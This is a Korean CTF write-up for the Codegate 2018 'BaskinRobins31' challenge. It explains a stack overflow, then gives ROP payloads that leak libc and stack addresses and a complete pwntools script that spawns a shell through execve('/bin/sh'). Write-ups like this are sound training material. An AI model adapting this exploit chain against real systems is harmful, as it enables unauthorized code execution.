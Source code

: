 ```yaml
---
title: Codegate CTF 2018 Qual - BaskinRobins31
date: 2024-07-09 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, bof, rop]
render_with_liquid: false
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Concept

베스킨라빈스 게임을 거꾸로해서 **1~3까지의 숫자를 고르면 (중요)** 31에서 빼고, 마지막 숫자 0을 부르는 사람이 지는 게임을 구현했다.

## 0x01. Vulnerability

``` c
__int64 __fastcall your_turn(_DWORD *a1)
{
  ...
  char buf[160]; // [rsp+10h] [rbp-B0h] BYREF

  len = read(0, buf, 0x190uLL);
  ...
}
```

취약점은 단순하게 내가 입력을 넣는 `your_turn()`에서 BOF가 발생한다.

## 0x02. Exploit

``` python
    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")
```

BOF가 가능하니 ROP를 이용해서 libc leak을 했고 `execve` 주소까지는 잘 획득했다.

처음에는 `system`의 주소로 exploit을 진행했는데, stack alignment 때문인지 segmentation fault가 발생해서 `execve`로 바꿨더니 성공했다.

문제는 `execve`에 어떻게 `/bin/sh`를 전달하느냐인데, libc에서 찾아서 전달해도 되지만 `environ`을 이용한 stack leak으로 해결했다.

``` python
    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")
```

이렇게 `environ`에 담겨있는 stack 영역 주소를 받아와서 `buf+0x8`과의 offset 차이를 계산한 후, `buf+0x8`에 `/bin/sh` 문자열을 넣어서 `execve` 함수의 인자로 전달했다.

``` python
    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()
```

그런데 마지막 payload에서 `pppr` 가젯에 갈때 이상하게 `rsi` 값만 이상해져서 쉘이 자꾸 안떴다.

``` bash
➜  0x40097a <your_turn+214>  ret
    ↳   0x40087a <helper+4>       pop    rdi
        0x40087b <helper+5>       pop    rsi
        0x40087c <helper+6>       pop    rdx
        0x40087d <helper+7>       ret
gef➤  x/4gx $rsp
0x7fffffffe188: 0x000000000040087a      0x00007fffffffe0d8
0x7fffffffe198: 0x00000000fffffffd      0x000000000000000
```

처음에는 뭐지 싶어서 그냥 `pppr` 가젯을 두 번 호출하는 것으로 해결했는데...

```
.text:000000000040095D  mov     rax, [rbp+var_B8]
.text:0000000000400964  mov     eax, [rax]
.text:0000000000400966  sub     eax, [rbp+choice]
```

알고보니 베스킨라빈스 게임을 하면서 내가 입력한 값이 감소하는 것이었다 ㅋㅋㅋㅋ

그래서 어? 앞에서는 왜 잘 됐지? 하고 확인해보니...

``` c
write(1, write_got, 8 - 1);
write(1, write_got, 8 - 2);
```

앞의 ROP payload에서는 `write`의 `size` 인자값에서 1, 2만큼 빠졌고, 주소값이 어차피 8바이트를 다 안쓰니까 괜찮았던거였다 ㅋㅋㅋㅋ

Payload를 작성할 때 dummy를 다르게 구성해서 어느 payload가 전달된건지 알 수 있게끔 하려고 한건데, 이런 나비효과가 발생할 줄이야...

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "BaskinRobins31"
LIBRARY = "libc.so.6"

bp = {
    'main' : 0x0000000000400a4b,
    'end_of_main' : 0x0000000000400b5a,
    'your_turn' : 0x00000000004008a4,
    'end_of_your_turn' : 0x000000000040097a,
    'pppr' : 0x40087a,                          # pop rdi; pop rsi; pop rdx
}

gs = f'''
b *{bp['end_of_your_turn']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recv(1024)

    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")

    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")

    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```